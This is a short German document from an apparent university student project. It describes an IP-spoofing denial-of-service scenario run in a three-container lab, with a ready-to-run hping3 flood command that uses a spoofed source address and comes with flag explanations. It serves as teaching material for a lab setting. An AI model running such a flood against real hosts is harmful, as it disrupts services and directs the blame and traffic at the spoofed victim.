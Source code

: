 <!--
SPDX-FileCopyrightText: 2022 Bassam-Khaled Thiab <inf3891@hs-worms.de>
SPDX-FileCopyrightText: 2022 Dominic Meyer <inf3644@hs-worms.de>
SPDX-FileCopyrightText: 2022 Felix Rheinheimer <felix.rheinheimer@hs-worms.de>
SPDX-FileCopyrightText: 2022 Jean-Arole Fotsing <inf3608@hs-worms.de>
SPDX-FileCopyrightText: 2022 Katrin Vollhardt <inf3493@hs-worms.de>
SPDX-FileCopyrightText: 2022 Steve Landry Tchamabe <infXXXX@hs-worms.de>
SPDX-FileCopyrightText: 2022 Syed Saad-Ullah <inf3664@hs-worms.de>
SPDX-FileCopyrightText: 2022 Thierry-Junior Djeutchou-Njieyong <inf3494@hs-worms.de>

SPDX-License-Identifier: GPL-3.0-or-later
-->

Angriffsszenarien  

Szenario 1: IP-Spoofing 

Der Angreifer schickt eine oder mehrere Anfragen (Denial of Service) an einen Server. Als source-IP spooft er seine IP-Adresse und gibt die Ip-Adresse seines Opfers an.
-	Für diesen Angriff brauchen wir das Tool „Hping3“ << sudo apt install hping3 – y >>
-	Topologie: 3Container (1Container für den Angreifer, 1Container für den Opfer, 1Container für den Server) 
-	Für diesen Angriff benutzen Alpine Linux als Image aufgrund seiner Leistung und seines Gewichts.
 
Kommando: sudo hping3 -1 --flood -V -p 80 -a XXX.XXX.XXX XXX.XXX.XXX(target_ip)
	-a: für die gespoofte IP-Adresse
-1: Pakettyp (ICMP), für SYN-Pakete braucht man eher -S
--flood: schickt so viele Anfragen wie möglich (mehr als 1000 Pakete pro Sekunde)
-V: verbose
-p: Port
